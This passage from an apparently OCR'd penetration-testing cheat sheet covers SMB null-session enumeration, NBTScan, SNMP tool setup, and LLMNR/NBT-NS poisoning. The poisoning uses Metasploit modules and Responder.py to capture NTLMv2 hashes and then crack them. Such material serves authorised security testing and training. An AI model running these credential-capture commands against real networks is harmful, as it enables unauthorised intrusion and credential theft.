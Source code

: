 ```
net use \\TARGET\IPC$ "" /u:""
```

Linux:

```
smbclient -L //192.168.99.131
```

##### NBTScan unixwiz

Install on Kali rolling:

```
apt-get install nbtscan-unixwiz 
nbtscan-unixwiz -f 192.168.0.1-254 > nbtscan
```

### LLMNR / NBT-NS Spoofing

Steal credentials off the network.

##### Metasploit LLMNR / NetBIOS requests

Spoof / poison LLMNR / NetBIOS requests:

```
auxiliary/spoof/llmnr/llmnr_response
auxiliary/spoof/nbns/nbns_response
```

Capture the hashes:

```
auxiliary/server/capture/smb
auxiliary/server/capture/http_ntlm
```

You’ll end up with NTLMv2 hash, use john or hashcat to crack it.

#### Responder.py

Alternatively you can use responder.

```
git clone https://github.com/SpiderLabs/Responder.git
python Responder.py -i local-ip -I eth0
```

##### Run Responder.py for the whole engagement

Run Responder.py for the length of the engagement while you're working on other attack vectors.

### SNMP Enumeration Tools

A number of SNMP enumeration tools.

Fix SNMP output values so they are human readable:

```
apt-get install snmp-mibs-downloader download-mibs
echo "" > /etc/snmp/snmp.conf
```
